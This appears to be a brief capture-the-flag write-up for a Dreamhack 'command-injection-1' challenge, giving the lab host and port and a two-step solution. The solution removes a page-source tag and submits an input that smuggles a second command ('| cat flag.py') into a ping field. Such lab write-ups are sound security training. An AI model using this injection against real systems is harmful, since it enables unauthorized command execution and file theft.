 # TITLE : command-injection-1


```
How to Connecting 
HOST : host1.dreamhack.games
Port : 8247/tcp
```

# Walk Through
```
1. Remove the tag on page source
2. input Command : 8.8.8.8" | cat flag.py #
```

